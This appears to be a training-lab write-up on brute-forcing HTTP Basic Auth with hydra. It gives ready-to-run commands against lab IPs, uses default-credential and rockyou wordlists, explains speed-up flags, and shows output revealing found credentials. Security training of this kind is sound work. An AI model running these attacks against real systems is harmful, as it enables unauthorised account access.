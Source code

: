 # ☄️ Basic HTTP Auth Brute Forcing

To install hydra -> "`apt install hydra -y`" or download it and use it from its [Github Repository](https://github.com/vanhauser-thc/thc-hydra)

It's good to start with lists of default passwords such as `test:test,`if we could not find any working pairs, we would move to use separate wordlists

Good lists are from seclist in the `/usr/share/seclists/Passwords/Default-Credentials`

```shell-session
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```

And the output will look something like that:

```shell-session
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-get://178.211.23.155:31099/
[31099][http-get] host: 178.211.23.155   login: test   password: testingpw
[STATUS] attack finished for 178.211.23.155 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

_**Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?**_

```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.50.83 -s 44054 http-get
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Credentials can also be separated by `usernames` and `passwords`. We can use the `-L` flag for the usernames wordlist and the `-P` flag for the passwords wordlist. Since we don't want to brute force all the usernames in combination with the passwords in the lists, we can tell `hydra` to stop after the first successful login by specifying the flag `-f`.

### Username/Password Attack

{% hint style="info" %}
"-u" flag so that it tries all users on each password and goes faster
{% endhint %}

```
 hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```

### Username Brute Force

we can brute force passwords for the `test` user by adding `-l test`

If we already found the password in the previous section, we may statically assign it with the "`-p`" flag, and only brute force for usernames that might use this password.

```shell-session
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```
